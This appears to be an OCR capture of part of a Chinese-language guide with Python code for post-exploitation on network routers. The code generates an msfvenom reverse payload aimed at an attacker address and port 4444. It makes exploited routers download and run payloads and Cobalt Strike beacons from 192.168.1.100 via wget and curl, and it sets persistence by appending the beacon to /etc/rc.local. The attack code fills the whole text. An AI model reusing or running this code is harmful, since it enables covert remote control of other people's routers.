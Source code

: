 ```python
        
        # 使用msfvenom生成payload
        import subprocess
        cmd = [
            'msfvenom', '-p', payload,
            'LHOST=192.168.1.100', 'LPORT=4444',
            '-f', 'elf', '-o', '/tmp/payload.elf'
        ]
        
        subprocess.run(cmd, capture_output=True)
        return '/tmp/payload.elf'
    
    def deploy_via_routersploit(self, exploit_module, payload_path):
        """通过RouterSploit部署Payload"""
        commands = [
            f"wget http://192.168.1.100/{payload_path} -O /tmp/p",
            "chmod +x /tmp/p",
            "/tmp/p &"
        ]
        
        for cmd in commands:
            exploit_module.run(cmd)
```

### 2. Cobalt Strike 集成

```python
class CobaltStrikeIntegration:
    """Cobalt Strike集成"""
    
    def generate_beacon(self, arch='mipsle'):
        """生成适合路由器的Beacon"""
        # 使用Cobalt Strike的arsenal kit生成payload
        beacon_config = {
            'arch': arch,
            'protocol': 'tcp',
            'port': 4444,
            'teamserver': '192.168.1.100'
        }
        
        # 这里需要Cobalt Strike的API或外部脚本
        return self._generate_custom_beacon(beacon_config)
    
    def deploy_beacon_router(self, exploit_module, beacon_path):
        """在路由器上部署Beacon"""
        # 上传并执行Beacon
        exploit_module.run(f"curl -s http://192.168.1.100/beacons/{beacon_path} -o /tmp/b")
        exploit_module.run("chmod +x /tmp/b")
        exploit_module.run("/tmp/b &")
        
        # 设置持久化
        exploit_module.run("echo '/tmp/b &' >> /etc/rc.local")
```

---